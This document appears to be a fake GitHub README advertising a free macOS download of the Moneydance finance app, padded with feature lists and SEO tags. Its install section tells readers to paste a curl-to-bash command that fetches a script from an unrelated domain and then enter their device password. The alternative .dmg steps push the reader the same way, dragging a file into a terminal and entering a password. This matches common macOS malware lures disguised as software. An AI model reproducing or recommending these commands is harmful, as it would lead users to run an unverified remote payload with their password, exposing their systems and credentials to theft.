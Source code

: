 # 💰 Moneydance — Comprehensive Personal Finance Software for macOS

Moneydance is a powerful personal finance application designed specifically for macOS users. It helps you manage your finances effortlessly with tools for online banking, budgeting, investment tracking, and bill payment — all wrapped in an intuitive, user-friendly interface.

## ✅ Download Moneydance for macOS  
[![Download Moneydance](https://img.shields.io/badge/Download-Moneydance-blueviolet)](https://moneydance-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Moneydance?

Moneydance is an all-in-one finance software that offers online banking connectivity, robust budgeting, detailed investment tracking, and bill payment features. Built with macOS in mind, it provides a smooth and secure environment to manage your personal or small business finances.

---

## ✨ Features

- 💳 Online banking and bill payment support  
- 📊 Budgeting tools with customizable categories  
- 📈 Investment portfolio tracking and reporting  
- 🔒 Secure encryption and password protection  
- 📱 Sync with iPad and iPhone apps  
- 🔄 Automatic transaction downloads and reconciliation  
- 🗂️ Dropbox integration for file syncing  
- 🖥️ macOS optimized with Retina display support  

---

## 💡 Why Use Moneydance?

- 🏦 Easily manage bank accounts, credit cards, and investments  
- 📅 Track bills and schedule payments to avoid late fees  
- 📉 Gain insights with detailed financial reports and graphs  
- 🔒 Protect your financial data with strong encryption  
- 🔄 Sync your data securely across all your Apple devices  

---

[![Download Moneydance](https://img.shields.io/badge/Download-Moneydance-blueviolet)](https://moneydance-mac-download.github.io/.github)

---

## 🖼️ Preview

![Moneydance Online Banking](https://infinitekind.com/images/products/onlinebanking.png)  
![Moneydance Homepage](https://infinitekind.com/images/products/homepage.png)

---

## 📌 Tags

moneydance, moneydance software, money dance, moneydance reviews, money dance finance software,  
moneydance personal finance, infinitekind moneydance, moneydance com, moneydance cost, moneydance coupon,  
moneydance discount, moneydance dropbox, moneydance for business, moneydance for ipad, moneydance for mac,  
moneydance for mac reviews, moneydance free, moneydance ios, moneydance online, moneydance personal finance software,  
moneydance reddit, reilly technologies moneydance
